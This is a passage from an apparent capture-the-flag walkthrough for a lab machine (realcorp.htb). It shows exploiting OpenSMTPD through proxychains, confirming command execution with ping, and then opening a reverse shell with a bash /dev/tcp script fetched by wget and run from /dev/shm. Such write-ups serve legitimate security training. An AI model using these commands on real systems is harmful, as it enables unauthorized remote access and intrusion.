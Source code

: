    oxdf@parrot$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    17:40:26.629737 IP 10.10.10.224 > 10.10.14.7: ICMP echo request, id 21, seq 1, length 64
    17:40:26.629760 IP 10.10.14.7 > 10.10.10.224: ICMP echo reply, id 21, seq 1, length 64
    

I’ll enter `QUIT` to exit:

    
    
    QUIT
    221 2.0.0 Bye
    

#### Script

To save myself the trouble of typing all that, I’ll grab the
[exploit](https://www.exploit-db.com/download/47984) and replace `root` with
`j.nakazawa@realcorp.htb`. It runs:

    
    
    oxdf@parrot$ sudo proxychains -f proxy-squid-x3.conf python opensmtp-exploit.py 10.241.251.113 25 'ping -c 1 10.10.14.7'
    \[proxychains] config file found: proxy-squid-x3.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.14
    [proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
    [*] OpenSMTPD detected
    [*] Connected, sending payload
    [*] Payload sent
    [*] Done
    

And produces the same result:

    
    
    17:51:41.139562 IP 10.10.10.224 > 10.10.14.7: ICMP echo request, id 31, seq 1, length 64
    17:51:41.139584 IP 10.10.14.7 > 10.10.10.224: ICMP echo reply, id 31, seq 1, length 64
    

### Shell

After futzing with different reverse shells for a while, I went back to just
requesting a shell and then passing it to Bash. `curl` didn’t reach back to my
host, but `wget` did. I wrote a simple `shell.sh`:

    
    
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.7/443 0>&1
    

I’ll start a Python web server and `nc` on 443. Now `wget` will get it and
save it in `/dev/shm`, and then run it:

    
    
    oxdf@parrot$ sudo proxychains -f proxy-squid-x3.conf python opensmtp-exploit.py 10.241.251.113 25 'wget 10.10.14.7/shell.sh -O /dev/shm/.0xdf.sh; bash /dev/shm/.0xdf.sh'
    [proxychains] config file found: proxy-squid-x3.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.14
    [proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
    [*] OpenSMTPD detected
    [*] Connected, sending payload
    [*] Payload sent
    [*] Done
    
